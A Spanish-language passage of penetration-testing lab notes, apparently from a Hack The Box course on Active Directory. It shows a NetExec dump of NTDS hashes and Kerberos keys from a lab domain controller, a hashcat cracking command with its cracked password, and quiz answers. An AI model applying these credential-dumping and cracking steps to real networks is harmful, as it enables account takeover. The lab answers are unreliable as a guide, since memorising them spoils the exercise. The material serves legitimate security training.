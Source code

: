 ```shell-session
NTDSUTIL    10.129.201.57   445     DC01         DC01$:des-cbc-md5:a2852362e50eae92
NTDSUTIL    10.129.201.57   445     DC01         krbtgt:aes256-cts-hmac-sha1-96:1eb8d5a94ae5ce2f2d179b9bfe6a78a321d4d0c6ecca8efcac4f4e8932cc78e9
NTDSUTIL    10.129.201.57   445     DC01         krbtgt:aes128-cts-hmac-sha1-96:1fe3f211d383564574609eda482b1fa9
NTDSUTIL    10.129.201.57   445     DC01         krbtgt:des-cbc-md5:9bd5017fdcea8fae
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\jim:aes256-cts-hmac-sha1-96:4b0618f08b2ff49f07487cf9899f2f7519db9676353052a61c2e8b1dfde6b213
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\jim:aes128-cts-hmac-sha1-96:d2377357d473a5309505bfa994158263
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\jim:des-cbc-md5:79ab08755b32dfb6
NTDSUTIL    10.129.201.57   445     DC01         WIN-IAUBULPG5MZ:aes256-cts-hmac-sha1-96:881e693019c35017930f7727cad19c00dd5e0cfbc33fd6ae73f45c117caca46d
NTDSUTIL    10.129.201.57   445     DC01         WIN-IAUBULPG5MZ:aes128-cts-hmac-sha1-
NTDSUTIL    10.129.201.57   445     DC01         [+] Dumped 61 NTDS hashes to /home/bob/.nxc/logs/DC01_10.129.201.57_2025-04-25_084640.ntds of which 15 were added to the database
NTDSUTIL    10.129.201.57   445    DC01          [*] To extract only enabled accounts from the output file, run the following command: 
NTDSUTIL    10.129.201.57   445    DC01          [*] grep -iv disabled /home/bob/.nxc/logs/DC01_10.129.201.57_2025-04-25_084640.ntds | cut -d ':' -f1
```

## Crackeo de HASHES
Con los hashes ya localizados, podemos pasar a crackearlos con hashcat, utilizando:
```
Polika4RM@htb[/htb]$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt

64f12cddaa88057e06a81b54e73b949b:Password1
```

----
 **1. What is the name of the file stored on a domain controller that contains the password hashes of all domain accounts? (Format: \*\*\*\*.\*\*\*)**
Respuesta teórica: NTDS.dit

**2. Submit the NT hash associated with the Administrator user from the example output in the section reading.**
Respuesta en base a los apuntes: **64f12cddaa88057e06a81b54e73b949b**

**3. On an engagement you have gone on several social media sites and found the Inlanefreight employee names: John Marston IT Director, Carol Johnson Financial Controller and Jennifer Stapleton Logistics Manager. You decide to use these names to conduct your password attacks against the target domain controller. Submit John Marston's credentials as the answer. (Format: username:password, Case-Sensitive)**

Vamos a empezar realizando una lista de las posibles combinaciones de nombres que puede tener John Marston.
En primer lugar, genero un archivo name.txt con el contenido:
```
cat name.txt 
	John Marston
```
